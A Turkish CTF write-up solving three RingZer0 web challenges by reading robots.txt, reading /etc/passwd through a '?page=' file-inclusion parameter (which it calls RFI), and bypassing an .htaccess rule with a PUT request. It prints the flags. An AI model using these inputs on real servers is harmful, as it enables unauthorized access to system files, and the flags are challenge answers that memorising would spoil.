

# WEB

## Big Brother is watching

Bu soruda googlenin bile bu sayfayı bulamayacağını söylüyor. Bu demek oluyor ki robots.txt dosyasından dissallow edilmiş. Hemen [https://ringzer0ctf.com/robots.txt](https://ringzer0ctf.com/robots.txt) dizinine gidiyorum. Karşıma çıkan sayfa şu şekilde:

```text
User-agent: *
Disallow: /16bfff59f7e8343a2643bdc2ee76b2dc/
```

Bir tane dizinin izin verilmediğini görüyoruz. Hemen o dizine gidelim. [https://ringzer0ctf.com/16bfff59f7e8343a2643bdc2ee76b2dc/](https://ringzer0ctf.com/16bfff59f7e8343a2643bdc2ee76b2dc/)

İşte flag:

```text
FLAG-G5swO95w0c7R5fq0sa85nVs5dK49O04i
```

[comment]: # (## Hacking skill are optional)

## Looking for password file

Bu soruda bir link vermiş ve bir password dosyasına ihtiyacı olduğunu söylemiş. Linke gidiyorum.

```url
http://challenges.ringzer0team.com:10075/?page=lorem.php#
```

Linke gittiğimde "lorem ipsum ..." diye başlayan metinden başka bir şey yok. Metindende bir şey çıkmıyor. Fakat url de bir şey dikkatimi çekiyor. `?page=lorem.php` kısmı sanki parametre aldığı sayfayı çağırıyor gibi.

Bu linkte lorem.php sayfasını çağırmış yada içeriğini yazdırmış. O zaman bunu neden diğer dosyalar üzerinde yapamayalım? Diğer insanlardan gizlenmesi gereken bir dosyayı parametre versek ve sonra ...

Bu soru için linux sistemlerde kullancı bilgilerini saklayan `passwd` isimli dosyayı parametre olarak veriyorum.

```text
http://challenges.ringzer0team.com:10075/?page=/etc/passwd
```

Bu dosyanın içeriği şu şekilde.

```text
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:FLAG-zH9g1934v774Y7Zx5s16t5ym8Z:/nonexistent:/usr/sbin/nologin
libuuid:x:100:101::/var/lib/libuuid:
sshd:x:101:65534::/var/run/sshd:/usr/sbin/nologin
syslog:x:102:105::/home/syslog:/bin/false
```

nobody kullanıcısının bilgilerinde flagin olduğunu görebiliriz. Bu açığa rfi (remote file inclusion) deniyor. Sunucudan dosya çekmeye yarayan bir açık. İnterneten araştırmanızı tavsiye ederim. İşte flag:

```text
FLAG-zH9g1934v774Y7Zx5s16t5ym8Z
```

## Area 51

Bu soruya ilk baktığımızda `.htaccess` ile birşeylerin engellendiğini söylüyor. Bunu okuduktan sonra yapmamız gereken ilk şey `.htaccess` in ne olduğunu araştırmak.

`.htaccess` web serwerlarda kullanılan bir dosyadır. Amacı web werver için birçok ayarlar yapmaktır. Bunlardan birkaçı kısıtlamalar ve giriş izinleridir.

Bu soruda ise bu dosya ile giriş iznimiz kısıtlanmış (restrict). Bu kısıtlamayı aşmak için internetten araştırmalarım sırasında şöyle bir şey buldum.

> Have you tried to use other HTTP Method than GET or POST to access the page ? Some misconfiguration in Apache could lead to accept request using method like PUT for example.

Bu demek oluyorki başka bir http metoru kullanmak bu soruda çözüm olabilir. Ben firefoxta geliştirici araçlarından ufak bir düzenleme ile GET metodunu **PUT** metoduna çevirdim. Ve sonuç:



```text
FLAG-w4KRr557y626izv567758O52
```

## Headache